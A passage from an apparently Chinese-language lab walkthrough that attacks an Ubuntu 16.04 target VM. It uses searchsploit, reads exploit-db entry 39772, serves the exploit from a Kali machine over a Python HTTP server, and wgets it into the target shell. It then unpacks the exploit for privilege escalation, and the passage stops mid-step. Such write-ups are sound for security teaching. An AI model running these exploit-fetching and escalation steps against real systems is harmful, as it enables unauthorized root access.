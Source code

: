 可以获取到靶机服务器的版本信息是 ：Ubuntu 16.04, 看看是否有执行漏洞

在 kali 中执行

```
searchsploit Ubuntu 16.04
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mzH47Af2bYXBTUMEMyGvY0Q31IqKTg0diahRYgviap7ssKelX4Kq5qnGg/640?wx_fmt=png)

可以看到有很多漏洞利用，在这里我们使用 39772.txt 这个漏洞

执行

```
cat  /usr/share/exploitdb/exploits/linux/local/39772.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mvFv7OEsS8dzNVYvkiaXaIVjozQICkibSIPiakV1ibcFyzgDnsqytsGR7jA/640?wx_fmt=png)

可以看到提示说让我们去下载一个 exp

下载之后，首先把 exp 放在 kali 中

然后执行命令

```
#使用python开启了一个http服务
python -m SimpleHTTPServer 9000
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61m76CUiaAdEdEYPqj1dzibQjeZQTCCcmTH6bXYiaUxZ1HeYhxPKjPfoNjjw/640?wx_fmt=png)

然后在靶机 shell 中执行

```
wget http://192.168.1.117:9000/39772.zip(ip是kail的ip)
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mmOQibDVNUYpB1HAklFkVHica0kAdLicxa0ibuqAXibBTW3hQ3Y6nVQ3tvMw/640?wx_fmt=png)

可以看到上传成功

08 提权
-----

首先解压 exp

```
unzip 39772.zip
cd 39772
```

![](https://mmbiz.qpic.cn/mmbiz_png/eqGGHicCG3MYLsiafhuCAGuOSuIhKap61mbDbEicibmoaV4YzFTfzYKv0a4N8TlIKwqAx9U8hLXehxMOsq3Dz6A95g/640?wx_fmt=png)

解压之后，可以看到两个 tart 文件，解压 exploit.tar

```
tar –xvf exploit.tar
```
